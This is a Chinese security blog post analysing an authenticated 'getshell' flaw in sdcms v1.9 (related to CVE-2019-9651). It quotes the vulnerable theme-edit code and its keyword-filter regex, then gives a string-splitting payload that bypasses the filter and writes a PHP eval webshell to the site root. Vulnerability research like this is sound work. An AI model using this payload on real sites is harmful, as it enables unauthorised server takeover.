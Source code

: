 

# sdcms v1.9 后台 getshell - 先知社区

sdcms v1.9 后台 getshell

- - -

\[TOC\]

# 1.前言

上集说到[sdcms v1.9 最新版前台 sql 注入](https://xz.aliyun.com/t/6992 "sdcms v1.9最新版前台sql注入")，通过注入运气好能进后台的话，然后就是 getshell 了。然后看了看后台 controller 目录里的文件，找到了一处可以 getshell 的地方，其实这个漏洞非常简单，就是一处写文件的功能

这个不是 0day 了，找到后发现网上已经有师傅申请了 cve，提交了 cnvd。

cve 编号：CVE-2019-9651  
cnvd 链接：[https://www.cnvd.org.cn/flaw/show/CNVD-2019-07927](https://www.cnvd.org.cn/flaw/show/CNVD-2019-07927)  
这个是针对 v1.7 版本的

cve 编号：CVE-2018-19520  
cnvd 链接：[https://www.cnvd.org.cn/flaw/show/CNVD-2019-05942](https://www.cnvd.org.cn/flaw/show/CNVD-2019-05942)  
这个是针对 v1.6 版本的

仔细搜一下这两个 cve 编号，漏洞其实就是一个漏洞，官方的修复就是一直增加关键字过滤，其实并没有什么用

# 2.漏洞分析

后台 controller 目录里有很多 php 文件都被加密了，看不懂源码，然后也有几个文件没用加密

我是直接全局搜索的 file\_put\_contents(，最终发现在\\app\\admin\\controller\\themecontroller.php 的 162 行左右：  
if(!APP\_DEMO) file\_put\_contents($root,$text);

他是在 edit 函数里，

```plain
public function edit()
    {
        if(IS_POST)
        {
            $dir=$this->decode(F('t0'));
            $dir=str_replace('..','',$dir);
            $root='theme/'.$dir;
            省略……
            $text=self::deal_text($_POST['t2']);
            $data=[[$text,'null','内容不能为空']];
            if(check_bad($text)>0)
            {
                $data=array_merge($data,[[(1>1),'other','请勿提交非法内容']]);
            }
            $v=new sdcms_verify($data);
            if($v->result())
            {
                if(strpos($root,'.php'))
                {
                    $text="<?php if(!defined('IN_SDCMS')) exit;?>".$text;
                }
                if(!APP_DEMO) file_put_contents($root,$text);
                $this->success('保存成功');
                $data="<?php\nif(!defined('IN_SDCMS')) exit;\nreturn ".var_export($name, true).";\n?>";
                if(!APP_DEMO) file_put_contents('theme/'.$theme.'/_note.php', $data);
            }
            else
            {
                $this->error($v->msg);
            }
            $this->add_log($this->msg);
        }
        else
        {
            省略……
        }
    }
```

$root 仅看代码的话感觉有点复杂，还调用了 decode 函数，其实不用管，他就是你编辑的文件名称，网站后台会提供好变量 t0

$data 就是写的内容，经过 check\_bad 处理了

check\_bad 在 app/function.php 的 413 行左右：

```plain
function check_bad($str)
{
    $num=preg_match_all("/(phpinfo|eval|file_put_contents|file_get_contents|passthru|exec|chroot|scandir|proc_open|delfolder|unlink|mkdir|fopen|fread|fwrite|fputs|tmpfile|flock|chmod|delete|assert|_post|_get|_request|_file|create_function|array_walk|preg_replace|cookie)/Ui",$str,$match);
    return $num?$num:0;
}
```

就是你写的内容不能有这么多字符串。其实这么多过滤并没有什么用，我看 v1.7 那个 cve 描述是说什么过滤不严，system 可以用，其实完全没必要，把字符串拆开即可，让他生成个一句话木马

# 3.漏洞利用

先访问 127.0.0.1/sdcms1.9/?m=admin&c=theme&a=index  
点这个管理模板  
就会看到一堆目录及文件，随便点一个 php 文件进去  
我这里点的是 top.php，然后输入以下代码：

```plain
<?php
$a = 'file_p'.'ut_contents';
$data = '<?php ev'.'al($_PO'.'ST[1])?>';
$a("chonger.php",$data);
?>
```

[![](assets/1698897509-e3e56785ba1ebda1d07db26cfc89313c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191225184018-f17e57b4-2702-1.png)  
看吧，这不就没出现任何关键字……然后点下面的保存即可

然后访问一下主页，127.0.0.1/sdcms1.9/，他就会 require 到刚刚修改的文件 top.php，一句话木马 chonger.php 就生成在网站根目录  
[![](assets/1698897509-08381fa567039e3463ccbcbdcf94a439.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191225184145-259f5c46-2703-1.png)

# 4.下集预告

目前正在审计 UsualToolCMS，前台目前感觉过滤很严，不太好整……

后台倒是找到 getshell 了，用处不大，本来就是小众 cms

加把劲再看看尽力把坑给填上，说有下集预告那就肯定有下集

漏洞肯定会是前台的，只有后台 getshell 没有前台的注入我都不会发的，不好玩

UsualToolCMS 万一找不着的话，那就换个 cms 搞

等着吧……
